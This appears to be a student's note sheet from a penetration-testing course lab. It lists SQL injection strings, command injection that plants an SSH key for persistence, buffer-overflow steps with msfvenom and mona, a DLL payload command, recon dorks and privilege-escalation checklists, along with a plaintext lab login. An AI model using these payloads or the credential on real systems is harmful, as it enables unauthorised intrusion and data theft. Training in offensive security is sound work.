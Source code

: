 GREYMAN
student@10.50.39.46 9MaGX5PmoRtsLKk
http://10.50.20.250:8000/challenges

linops
10.50.36.67
winops
10.50.26.46
xfreerdp /u:student /v:10.50.26.46 /dynamic-resolution +glyph-cache +clipboard

DRY Run
10.50.34.92

Phase
1: Mission Definitin
2: recon
3: footprinting
4: Exploit
5: post exp
6: Doc misssoin

exploit-db.com
virustotal


# google hacking
site: marines.mil
site: marines.mil covid 19
site: marines.mil filetype:pdf "covid 19"

 
# Recon 
for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done

# Web Exploitation

-command injection
(home box)
  ssh-keygen -t rsa
  cat .ssh/id_rsa.pub
(Target)
  ; whoami
  ; cat /ect/passwd
  ; ls -la /var/www
  ; mkdir /var/www/.ssh
  ; echo "id_rsa.pub" > /var/www/.ssh/authorized_keys
  ; cat /var/www/.ssh/authorized_keys
(home)
  ssh www-data@10.50.31.75

  ls -la /var/www/html
  
# sql

mysql
show databases;
show tables from session;
select * from session.car;
use session;
select * from car;
describe car;
select * from car UNION select tireid,name,size,cost,1,2 FROM Tires;
select id FROM users WHERE name='tom'or 1='1' AND pass='tom' or 1='1'

text Box()
ram' OR 1='1

# Reverse Engineering


url()
category=1 or 1=1
UNION SELECT 1,table_name,3 FROM information_schema.tables

# DEV EXPLOIT
gdb 
wiremask 
look for off set for eip 
gdb pdisass main
env - gdb (file)
show env
unset env
run and crash the program
info proc map
find /b (start of heap), (end of stack), 0xff, 0xef
find jump to eip to jum esp
msfvenom -p linux/x86/exec CMD=ifconfig -b '\x00' -f python

!mona modules
!mona jmp -r esp -m
/.hidden/inventory.exe <<<$(./mybuff.py)

# priv escalation 
procmon
crl L
path containt dll
-p windows/exec CMD='cmd.exe /C "whoami" > C:\ p\whami.txt' -f dll > sspiclr dll

LINUX


dry run
file upload
/etc/host for another box
# Scripts
http://10.50.29.85:9000/
review
nmap -v -sT -Pn -T4 -sV --script=http-enmu.nse
check for robots.txt
check all pages
--files to look for /dir tranversel
 etc/passwd
 etc/hosts
 etc/group
 etc/network
 etc/resolve.conf
-- Username and password /sql inject
A' OR 1='1
(dev tool network) switch to raw to get post to get
2 types of encode ROT13 and BASE64
-- recon new box
sudo -l
ping sweep
look at cron
find perm
nmap
-- priv esc
https://gtfobins.github.io/
-- windows
regedit
services
netstat -ano
net users 
net localgroup
task scheclde
-- win buff overflow


a' OR 1='1
find / -name hint* 2> /dev/null
